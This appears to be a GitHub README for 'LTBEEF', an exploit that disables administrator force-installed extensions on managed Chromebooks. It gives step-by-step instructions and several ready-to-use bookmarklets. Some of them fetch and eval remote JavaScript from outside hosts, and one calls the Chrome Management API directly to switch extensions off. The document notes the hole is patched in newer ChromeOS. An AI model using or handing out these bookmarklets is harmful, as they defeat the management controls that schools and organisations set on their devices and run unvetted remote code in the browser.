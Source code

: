 ```yaml
---
title: ltbeef-disable-extensions
---
```


-e 
Bookmarklets must not be blocked by policy to perform this exploit.
NOTE: This is patched in new versions of ChromeOS

LTBEEF (Literally The Best Exploit Ever Found) can disable extensions that are force-installed. 
Using the Chrome Management API, it is run on chrome.google.com/webstorex to utilise the Chrome Web Store's privileges in Chrome.

1. Copy the Javascript code from one of the bookmarklets below.
2. Make a new bookmark on your Chromebook.
3. Put the Javascript code in the URL section of the bookmark.
4. Visit https://chrome.google.com/webstorex. If it doesn't work, replace the x with anything else.
5. Click on the bookmark you made.
6. Switch off the extensions you don't want to have anymore with the GUI.
7. You're done! The extension should now be disabled.

CompactCow GUI:
javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});

javascript: fetch("https://compactcow.com/ltbeef/exploit.js").then((data) => {
  data.text().then((text) => {
    eval(text);
  });
});

CompactCow GUI (Dark):
javascript:void fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(d=>d.text()).then(eval);

Ingot GUI:
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())

Basic (no GUI):
javascript: prompt("Extension IDs here: (seperated by commas)")
  .split(",")
  .forEach((i) => {
    chrome.management.setEnabled(i.trim(), !1);
  });

Credits:
Bypassi#7037 - Exploit
CompactCow#4717 - New UI (https://compactcow.com/ltbeef)
Nebelung#1335	- Ingot (https://fognetwork.github.io/Ingot/)

CompactCow GUI Source - https://compactcow.com/ltbeef/exploit.js
